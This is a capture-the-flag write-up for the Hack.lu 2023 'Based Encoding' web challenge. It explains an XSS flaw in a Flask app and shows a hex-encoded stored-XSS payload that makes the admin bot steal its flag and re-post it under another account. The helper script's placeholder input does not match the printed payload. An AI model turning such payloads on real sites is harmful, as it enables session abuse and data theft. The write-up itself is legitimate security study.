

### Based Encoding - Hack.lu CTF 2023 - web


### Running the challenge locally

```
docker-compose up -d
```

You can now access the challenge at http://localhost:5000/login

### Writeup


This challenge was a flask python web application (using sqlite3 db and flask sessions) that allowed users to create base91 encoded strings and view them, and report any to the admin bot. The goal of this challenge was to view the encoded string of the admin bot (flag).

Create a test:test user. Each user can see their own created notes ids and check each note. Login with the test user and create the following note:




The provided fake flag was base91 encoded and it produced the following value:
```
@iH<Z$!eaUWsuxXi%]D
```
You can see that in the displayed encoding it only shows @iH, this is because the /e/<encoding_id> endpoint is vulnerable to XSS (cross-site scripting) and everything after the < character gets parsed as the beggining of a HTML tag.

With this in mind we need to craft a payload that will become a XSS payload after it is base91 encoded. To achieve this we can use the based91.py decode and encode functions. For our resulting XSS payload we are restricted by the base91 characters in the based91.py file:

```
base91_alphabet = ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M',
	'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z',
	'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm',
	'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
	'0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '!', '#', '$',
	'%', '€', '(', ')', '*', '+', ',', '°', '/', ':', ';', '<', '=',
	'>', '?', '@', '[', ']', '^', '_', '`', '{', '|', '}', '~', '"']
```

We are also restricted to 1000 characters (app.py line 149) and we should send our payload hex encoded (app.py line 152).

```
text = request.form["text"]
if len(text) > 1000:
    flash("Too long!")
    return redirect("/create")
encoded = based91.encode(text.encode() if not (re.match(r"^[a-f0-9]+$", text) and len(text) % 2 == 0) else bytes.fromhex(text))
encoding_id = create_encoding(session["username"], encoded)

return redirect(f"/e/{encoding_id}")
```

The following payload only contains chars from the alphabet above and will do the following actions:
- fetch the encoding_ids from the admin bot (available at /)
- fetch the first encoded string with the retrieved encoding_id 
- login as another user, in this case z6:g
- create an encoded string using the retrieved encoded string (base91 encoded flag) from the admin bot, sending it hex encoded

```
texttodecode = 'test'

print(decode(texttodecode).hex())
print(len(decode(texttodecode).hex()))
print(encode(decode(texttodecode)))
```

Using the decode function from based91.py we can decode our XSS payload as base91 and hex encode it so when the app encodes it and displays it on HTML it triggers as intended. For this plan to work don't forger to create the z6:g user account. The code above will print the final payload, the length of it to confirm it doesn't pass 1000 chars and the result after it is encoded again to make sure all characters are still there. This will produce the following output:

```
62cc70b5bf0f15e8a215dd8b7b52ab035eaf20f0087ce8597059958023380f6ea82156e0189fb5af568710c131be27f05ac140c0fe8619ff43cf82cbaa041cc1beefc13d6866ecb416dc06d472f8b7096fad5963f7fedb3aff5a638e1b7ca57070a738c07d4db855220c03d1ccd86975c0ebe5bf9ec05fb7c356c0110c7f63251ca6a463fd09fc753b6c051cc1f0f783c26194e98773de62724b21101ae368789e0513e30a3882db35e386bf7bb45d4b6ecfcf269f401d6702f7db0a580489c0ec38ad00fb12d8eaa09a85ca805a4e43bf80459008048a2e60112402af5c6be3c90f99164ab5fd46e58ed50658afa416f444c3616c31b9a510088d7174b20a51f2b74977391b5602667b6885beee14129850a6cd655e5669eaece969b83ce5c6231228fdce5e5982566e1207845744e059827e684e4fb52ed1dfae55220c03d1ccf88b3d81d70a0602f6370cb53ae0f50a027b54b5ca801c60b68756e8eb4e21810965da5ce66595a6ce9e9e86cb536e3c2281d70a062e8134ef09fc753b6c051cc1f03756c2614a2ad69fc05fb7c356c0118c053e74eed6ea003bd25a701b50cbe15f23fcf93ae0ddc3bf41a00c48989ec0eb35f674dcb1fa7f80fd573ef42ce868ecde7ff30047f03485c34fe054b3501ce0083e4bcfcf5e9840218837e130e37fe8cbcc87958023180b64fc8cdf7f5fab15
998
terA
```

Sending the first hex encoded printed value to create a encoding on the app we get an encoding id on the url for it like 75994ed2fabb5c6f5e0b97d4fdf0537073ff3d61. We should now click on report and send it to the admin bot. We now can see a new encoding has been added to our encoding list, if we open it it has the following value:

```
mZZFpj1RG$Y°e9DMf87IP:G+;Rk|h90oOSDg$°%`cSs|A
```

Which can be base91 decoded to:

```
print(decode("mZZFpj1RG$Y°e9DMf87IP:G+;Rk|h90oOSDg$°%`cSs|A"))
\t\t<h2 class="subtitle">testflag</h2>
```

If you would have done it on the live instance you would have got the following flag:
```
\t\t<h2 class="subtitle">flag{bas3d_enc0dings_str1p_off_ur_sk1n}</h2>
```

Don't forget to check the html response on the network or on view page source, to allow you to see the full contents of the encoding. And use the based91.py file to decode the values instead of online tools.